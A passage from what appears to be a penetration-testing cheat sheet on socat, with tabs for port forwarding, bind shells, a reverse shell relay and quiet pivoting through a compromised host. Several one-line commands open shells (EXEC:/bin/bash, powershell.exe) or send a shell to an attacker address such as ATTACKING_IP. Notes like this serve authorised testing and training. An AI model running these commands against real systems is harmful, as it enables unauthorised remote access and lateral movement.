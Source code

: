 # IF SOCAT IS ON THE TARGET MACHINE
# Local port forwarding, internal port 8080 would be exposed as port 5689 from the host/attacking machine perspective
socat TCP-LISTEN:5689,fork,reuseaddr tcp:127.0.0.1:8080 &#x26;

# TCP-LISTEN:(PORT WE WILL USE WITH THE TARGET MACHINE IP), e.g. 10.0.2.17:5689
# tcp:(INTERNAL ACTIVE IP AND PORT OF THE TARGET MACHINE)
</code></pre>
{% endtab %}

{% tab title="Bind shells" %}
```bash
# On a Linux target we would use the following command:
socat TCP-L:<PORT> EXEC:"bash -li"
# On a Windows target we would use this command for our listener:
socat TCP-L:<PORT> EXEC:powershell.exe,pipes
# this command on our attacking machine to connect to the waiting listener.
socat TCP:<TARGET-IP>:<TARGET-PORT> -
```
{% endtab %}

{% tab title="Reverse shell relay" %}
{% code overflow="wrap" %}
```bash
socat -d -d TCP4-LISTEN:443 STDOUT #listener
socat TCP4:10.11.0.22:443 EXEC:/bin/bash

# Reverse shell relay (create a relay to send a revshell back to our attacking m)
sudo nc -lvnp 443
./socat tcp-l:8000 tcp:ATTACKING_IP:443 & #Try to use same port (2000 and 2000)
```
{% endcode %}
{% endtab %}

{% tab title="Port forwarding" %}
{% code overflow="wrap" %}
```bash
# Port forwarding with socat (not necessary if the intermediate machine has the tool to connect to the subnet, if socat is not on the machine transfer a statically-linked binary)
socat -ddd TCP-LISTEN:2222,fork TCP:$TARGET_IP:$TARGET_PORT # run on the intermediate machine to listen on 3456 and forward traffic to the target IP and port
# iptables
Only with root privs, need some specific rules and requires enabling forwarding -> echo 1 > /proc/sys/net/ipv4/conf/[interface]/forwarding


# -- Quiet -- Do not open any ports on the target machine
# Attacking machine This opens up 8000 and 8001, creating a local port relay. 
socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &
# Next, on the compromised relay server 
./socat tcp:ATTACKING_IP:8001 tcp:TARGET_IP:TARGET_PORT,fork &
# Close the background jobs
jobs
kill %NUMBER
```
{% endcode %}
{% endtab %}
